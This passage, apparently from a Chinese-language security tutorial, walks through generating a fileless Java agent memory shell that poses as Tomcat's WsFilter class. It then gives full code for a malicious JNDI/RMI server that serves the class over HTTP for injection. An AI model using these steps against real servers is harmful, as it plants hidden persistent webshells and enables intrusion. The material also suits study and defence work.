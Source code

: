 ```bash
java -jar .\FilelessAgentMemshellGenerator.jar -b 64 -c "org.apache.tomcat.websocket.server.WsFilter" -i false -o "Windows" -p .\WsFilter.class -t false
```

弹出警告，但还是成功生成了所需的类文件[![](assets/1701678277-2b5791e9a5503cc9c6fcda7f8f780e65.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231130224345-dd51c44e-8f8e-1.png)

在工具同目录的 out 文件夹下可找到`AgentMemShell.class`

### 配置 JNDI 服务器

**JNDI 恶意服务器可以用 ysomap 等工具快速部署**，这里简单讲讲手工步骤

首先需要启动一个**RMI 服务或者 LDAP 服务**，随便绑定一个远程对象上去

接着使用`python -m http.server`在此目录开启一个 Http 服务

将引用的地址设置为 Http 服务的 URL，如`http://localhost:8000/`，设置类名和工厂名

`Reference refObj = new Reference("AgentMemShell","AgentMemShell","http://localhost:8000/");`

再将引用重绑定给 JNDI 服务

`InitialContext initialContext = new InitialContext();`

`initialContext.rebind("rmi://localhost:11451/remoteObj",refObj);`

**最后启动 JNDI 服务**

```bash
import javax.naming.InitialContext;
import javax.naming.Reference;

public class JNDIServer {
    public static void main(String[] args) throws Exception{
        InitialContext initialContext = new InitialContext();
        Reference refObj = new Reference("AgentMemShell","AgentMemShell","http://localhost:8000/");
        initialContext.rebind("rmi://localhost:11451/remoteObj",refObj);
    }
}
```
